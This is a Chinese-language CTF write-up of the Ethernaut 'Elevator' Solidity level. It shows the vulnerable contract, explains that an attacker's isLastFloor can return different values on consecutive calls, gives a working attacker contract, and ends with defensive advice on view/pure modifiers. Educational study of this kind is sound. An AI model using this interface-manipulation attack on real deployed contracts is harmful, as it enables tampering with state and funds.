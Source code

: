 # Elevator

> 电梯不会让你达到大楼顶部, 对吧?

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

攻击思路

只要两次连续调用返回的bool值不同即可

攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Building {

    Elevator constant private target = Elevator(0xB1092Eed9f891efF6C136f54eee0b33FBB0a7E72);

    bool flag = false;

    function attack() public{
        target.goTo(100);
    }
    
    function isLastFloor(uint floor) external returns (bool){
       bool _flag = flag;
       flag = !flag;
       return _flag;
   }
}
```

你可以在接口使用 `view` 函数修改器来防止状态被篡改. `pure` 修改器也可以防止状态被篡改. 认真阅读 [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) 并学习注意事项.

完成这一关的另一个方法是构建一个 view 函数, 这个函数根据不同的输入数据返回不同的结果, 但是不更改状态, 比如 `gasleft()`.